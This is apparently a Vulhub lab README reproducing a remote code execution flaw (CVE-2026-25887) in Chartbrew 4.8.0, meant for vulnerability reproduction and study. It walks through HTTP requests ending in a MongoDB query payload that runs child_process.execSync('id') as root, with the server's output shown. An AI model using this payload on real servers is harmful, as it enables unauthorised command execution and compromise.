

# Chartbrew MongoDB Dataset Query Remote Code Execution (CVE-2026-25887)

[中文版本(Chinese version)](README.zh-cn.md)

[Chartbrew](https://github.com/chartbrew/chartbrew) is an open-source reporting platform that connects to databases and APIs to build and share live dashboards.

In Chartbrew version 4.8.0, the `runMongo` function in `ConnectionController.js` passes user-supplied MongoDB dataset queries directly into a JavaScript `Function()` constructor without proper validation or sanitization. An authenticated user with permission to create datasets can inject arbitrary JavaScript code through the MongoDB query input, achieving remote code execution on the server in the context of the Node.js process. This vulnerability is fixed in version 4.8.1, which introduces AST-based query validation.

References:

- <https://github.com/chartbrew/chartbrew/security/advisories/GHSA-x4r6-prmw-7wvw>
- <https://nvd.nist.gov/vuln/detail/CVE-2026-25887>

## Environment Setup

Execute the following command to start Chartbrew 4.8.0:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:4018` to access the Chartbrew web interface. The API server is available at `http://your-ip:4019`.

## Vulnerability Reproduction

First, register a new account (the first user will become the administrator):

```
POST /user HTTP/1.1
Host: your-ip:4019
Content-Type: application/json

{"name":"admin","email":"admin@vulhub.org","password":"vulhub123"}
```

The response will include a JWT token in the `token` field. Use this token in the `Authorization: Bearer <token>` header for all subsequent requests.

Then, create a MongoDB connection pointing to the MongoDB service included in this environment:

```
POST /team/1/connections HTTP/1.1
Host: your-ip:4019
Authorization: Bearer <token>
Content-Type: application/json

{"team_id":1,"type":"mongodb","subType":"mongodb","name":"VulnMongo","connectionString":"mongodb://mongodb:27017/test"}
```

Next, create a dataset and a data request with the malicious MongoDB query payload. The payload breaks out of the intended MongoDB call chain and uses `child_process.execSync` to execute arbitrary commands:

```
POST /team/1/datasets HTTP/1.1
Host: your-ip:4019
Authorization: Bearer <token>
Content-Type: application/json

{"team_id":1,"legend":"ExploitDataset","draft":true}
```

```
POST /team/1/datasets/1/dataRequests HTTP/1.1
Host: your-ip:4019
Authorization: Bearer <token>
Content-Type: application/json

{"dataset_id":1,"connection_id":1,"query":"version + (function(){ try { const r = global.process.mainModule.require('child_process'); return r.execSync('id').toString(); } catch(e) { return e.toString(); } })()"}
```

Finally, trigger the query execution to run the injected code on the server:

```
POST /team/1/datasets/1/dataRequests/1/request HTTP/1.1
Host: your-ip:4019
Authorization: Bearer <token>
Content-Type: application/json

{"getCache":false}
```

The response will contain the output of the `id` command in the `responseData.data` field, confirming that arbitrary commands can be executed on the server as root:

```json
{"dataRequest":{"responseData":{"data":"undefineduid=0(root) gid=0(root) groups=0(root)\n"}}}
```


